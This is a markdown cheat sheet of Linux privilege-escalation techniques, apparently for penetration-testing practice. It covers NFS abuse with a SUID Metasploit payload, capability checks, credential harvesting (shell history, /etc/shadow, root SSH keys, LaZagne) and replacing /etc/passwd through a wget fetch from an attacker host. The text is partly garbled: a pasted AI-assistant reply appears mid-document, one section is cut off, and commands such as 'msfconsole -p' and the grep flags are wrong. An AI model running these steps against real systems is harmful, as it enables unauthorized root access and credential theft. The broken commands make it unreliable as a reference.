 
Follow: https://blog.bdhungana.com.np/linux-privilege-escalation
https://docs.h4rithd.com/linux/basic-commands?ref=172.16.77.130
---

# Linux Privilege Escalation

## NFS Exploit

To check if the attacker machine mount is possible:
```sh
cat /etc/exports
```

Use Nmap to check the NFS mount:
```sh
nmap --script=nfs-showmount 10.10.x.x
```
*(Note: (sync) means write)*

### To set up the mount point on a local machine and create a temporary directory:

1. On the local machine, create a temporary directory:
    ```sh
    mkdir /tmp/nfs
    ```

2. Mount the NFS share:
    ```sh
    sudo mount -o rw,vers=3 -t nfs 10.10.x.x:/tmp /tmp/nfs
    ```

3. Navigate to the `/tmp` directory.

### Create a Metasploit Linux exploit with SUID bit set:

1. On the local machine with root privileges, generate the exploit:
    ```sh
    msfconsole -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
    ```

2. Give the SUID bit permission to the `shell.elf` file:
    ```sh
    chmod +s /tmp/nfs/shell.elf
    ```

### Execute the `shell.elf` file on the compromised machine:

1. Navigate to the compromised machine and execute the file:
    ```sh
    ./shell.elf
    ```

---

# Exploit Capabilities

## After logging into the compromised machine, check if the capabilities exist:

### Using LinePeas:

To check capabilities:
```sh
./linepeas
```

### Manual Approach:

1. To check the capabilities for SUID bit:
    ```sh
    getcap -r / 2>/dev/null
    ```

2. To find files with SUID bit:
    ```sh
    find / -perm /4000 2>/dev/null
    ```

3. To check the process capabilities:
    ```sh
    ps -aux | grep root
    ```

4. Check any process ID which is running as root:
    ```sh
    cat /proc/477/status | grep -i cap
    ```

5. Convert the hex value to ASCII value:
    ```sh
    capsh --decode=000003ffffffff
    ```

### Use GTFOBins to Exploit:

---

It looks like you're compiling a list of commands and steps for a penetration testing task, focusing on finding and exploiting sensitive credentials. Let's break down the steps and ensure they are clear and actionable.

## Sensitive Credentials

1. **Read Bash History:**
   ```bash
   cat ~/.*history | less
   ```

2. **Configuration Files:**
   ```bash
   find / -type f -exec grep -i -l "PASSWORD\|PASSWD" {} 2>/dev/null
   locate config.php
   locate password
   locate passwd
   cat /var/mail/*
   cat /var/spool/mail/*
   ```

3. **Search for Passwords:**
   ```bash
   grep -color=auto -rnw '/' -ie "PASSWORD\|PASSWD" -color=always 2>/dev/null
   ```

4. **Hashes in Password/Shadow:**
   ```bash
   cat /etc/passwd
   cat /etc/shadow
   ```

5. **Credentials in Memory:**
   ```bash
   # This step typically involves using tools like `strings` or `grep` on memory dumps.
   ```

6. **Browser Credentials:**
   ```bash
   # This step typically involves using tools like `LaZagne` or `Firefox Decrypt`.
   ```

7. **SSH Key-Based Authentication Check:**
   ```bash
   cat /root/.ssh/id_rsa
   cd /root
   cd .ssh
   ls -al
   cat root_key
   ```

8. **Copy and Save SSH Key:**
   ```bash
   # On your local machine:
   chmod 600 id_rsa
   ```

9. **Connect Using SSH Key:**
   ```bash
   ssh -i id_rsa root@10.10.X.X -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa
   ```

10. **Using LaZagne:**
    ```bash
    # Download LaZagne from GitHub
    git clone https://github.com/AlessandroZ/LaZagne.git
    cd LaZagne
    python laZagne.py all
    ```



- Browsers (Chrome, Firefox, etc.)
- Email clients (Outlook, Thunderbird, etc.)
- System credentials (Windows, Linux, etc.)

## Example Commands

- **Retrieve all passwords:**
  ```bash
  python laZagne.py all
  ```

- **Retrieve passwords from a specific browser:**
  ```bash
  python laZagne.py browsers
  ```

- **Retrieve passwords from a specific email client:**
  ```bash
  python laZagne.py email

 

## Weak File Permissions

1. **Check `/etc/passwd` Permissions:**
   ```bash
   ls -l /etc/passwd
   ```

2. **Backup `/etc/passwd`:**
   ```bash
   cp /etc/passwd /tmp/passwd.bak
   ```

3. **Copy `/etc/passwd` to Local Machine:**
   ```bash
   scp user@compromised_machine:/etc/passwd /local/path/passwd
   ```

4. **Generate Password Hash:**
   ```bash
   openssl passwd -6 password123
   ```

5. **Edit `/etc/passwd` on Local Machine:**
   ```bash
   # Open the passwd file in a text editor
   nano /local/path/passwd

   # Replace the root entry with the new hash
   root:ssssssssssssss:0:0:root:/root:/bin/bash
   ```

6. **Upload Modified `/etc/passwd` to Compromised Machine:**
   ```bash
   scp /local/path/passwd user@compromised_machine:/tmp/passwd
   ```

7. **Replace `/etc/passwd` on Compromised Machine:**
   ```bash
   wget http://10.10.x.x/passw -O /etc/passwd
   ```

8. **Switch to Root User:**
   ```bash
   su root
   ```

9. **Enter the Password:**
   ```bash
   # Enter the password you used to generate the hash
   ```



